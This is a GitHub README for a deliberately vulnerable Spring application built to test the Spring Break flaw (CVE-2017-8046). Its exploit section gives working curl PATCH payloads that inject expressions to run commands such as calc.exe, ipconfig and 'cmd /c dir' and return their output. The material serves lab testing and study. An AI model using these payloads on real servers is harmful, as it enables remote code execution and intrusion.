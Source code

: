 # Spring Break Vulnerable Application

This is a vulnerable application to test the exploit for the **Spring Break** vulnerability (**CVE-2017-8046**).

## WARNING!

**This application contains serious security vulnerabilities. Run it at your own risk! It is recommended using a backed-up and sheltered environment (such as a VM with a recent snapshot and host-only networking). Do not upload this application to any Internet facing servers, as they will be compromised.**

***DISCLAIMER*: I do not take responsibility for the way in which any one uses this application (SpringBreakVulnerableApp). The only purpose of this application is to be a test scenario for the Spring Break exploit and it should not be used maliciously. If your server is compromised via an installation of SpringBreakVulnerableApp it is not my responsibility, it is the responsibility of the person(s) who uploaded and installed it.**

## Vulnerability info

* **CVE-ID**: CVE-2017-8046
* **Link**: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8046)
* **Description**: Malicious *PATCH* requests submitted to *spring-data-rest* servers in **Pivotal Spring Data REST** versions prior to **2.5.12**, **2.6.7**, **3.0 RC3**, **Spring Boot** versions prior to **2.0.0M4**, and **Spring Data** release trains prior to **Kay-RC3** can use specially crafted JSON data to run arbitrary Java code.

## Usage

The application can be launched with the following Maven command.

```
mvn spring-boot:run
```
A fat jar can be generated with the following Maven command.

```
mvn clean install spring-boot:repackage
```

To insert data you can use the following curl command.

```
curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity
```

## Exploit

Probably the simplest exploit is the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Thread).sleep(10000).x", "value" : "pwned" }]' "http://hostname:port/entity/1"
```

On Windows, the `calc.exe` process can be launched with the following request. Similar requests can be used to launch arbitrary commands.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"calc.exe\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

To obtain the output of launched commands, some "gadgets" offered by Spring Framework code can be used. Luckily, no external dependencies are required. For example, the result of `ipconfig` command can be retrieved with the following request.

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

On Windows, a `cmd /c dir` command, and other similar commands, can be launched with the following request. Please note the trick used to insert the slash char avoiding the explicit value (i.e. explicit slashes are replaced with dots befor the real parsing).

```
curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"cmd \" + T(java.lang.String).valueOf(T(java.lang.Character).toChars(0x2F)) + \"c dir\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
```

A Java program to exploit this vulnerability can be found [here](https://github.com/m3ssap0/spring-break_cve-2017-8046).

## Authors

* **Antonio Francesco Sardella** - *implementation* - [m3ssap0](https://github.com/m3ssap0)

## License

This project is licensed under the MIT License - see the **LICENSE.txt** file for details.

## Acknowledgments

* [Man Yue Mo](https://lgtm.com/blog/spring_data_rest_CVE-2017-8046_ql) the security researcher who discovered the vulnerability